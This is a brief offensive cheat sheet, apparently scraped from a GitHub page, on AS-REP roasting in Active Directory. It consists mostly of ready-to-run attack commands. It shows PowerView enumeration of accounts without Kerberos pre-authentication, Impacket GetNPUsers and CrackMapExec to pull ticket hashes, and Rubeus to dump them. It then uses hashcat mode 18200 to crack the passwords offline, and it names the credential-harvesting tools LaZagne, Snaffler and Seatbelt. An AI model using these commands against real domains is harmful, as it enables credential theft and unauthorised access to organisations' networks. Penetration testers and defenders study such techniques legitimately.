 ### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Requirements:

### Accounts with the attribute DONT_REQ_PREAUTH ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

#### Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -outputfile /tmp/list.txt

## Alternate Method: CrackMapExec

 -  crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asrep

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |

